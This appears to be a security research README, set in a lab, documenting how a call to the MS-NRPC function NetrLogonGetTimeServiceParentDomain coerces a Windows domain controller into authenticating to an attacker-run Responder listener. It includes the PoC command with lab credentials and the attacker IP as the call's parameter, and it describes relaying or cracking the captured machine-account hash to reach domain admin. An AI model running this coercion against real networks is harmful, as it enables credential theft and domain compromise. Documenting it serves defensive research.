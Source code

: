 # MS-NRPC - Remote call to NetrLogonGetTimeServiceParentDomain (opnum 35)

## Summary

 - **Protocol**: [[MS-NRPC]: Netlogon Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f)

 - **Protocol UUID**: 12345678-1234-abcd-ef00-01234567cffb

 - **Protocol version**: 1.0

 - **SMB Named pipe**: `\PIPE\NETLOGON`

 - **Function name**: [`NetrLogonGetTimeServiceParentDomain`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/be27686c-2373-4743-9b65-5c97b2618bdd)

 - **Function operation number**: `35`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\NETLOGON` and bind to the desired [`MS-NRPC`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f) protocol (with uuid `12345678-1234-abcd-ef00-01234567cffb` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-NRPC`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\NETLOGON` This pipe is connected to the protocol [[MS-NRPC]: Netlogon Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f) and allows to call RPC functions of this protocol. We will then call the remote [`NetrLogonGetTimeServiceParentDomain`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/be27686c-2373-4743-9b65-5c97b2618bdd) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
NetrLogonGetTimeServiceParentDomain('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NET_API_STATUS NetrLogonGetTimeServiceParentDomain(
   [in, unique, string] LOGONSRV_HANDLE ServerName,
   [out, string] wchar_t** DomainName,
   [out] int* PdcSameSite
 );
```

## References

 - Documentation of protocol [MS-NRPC]: Netlogon Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f

 - Documentation of function `NetrLogonGetTimeServiceParentDomain`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/be27686c-2373-4743-9b65-5c97b2618bdd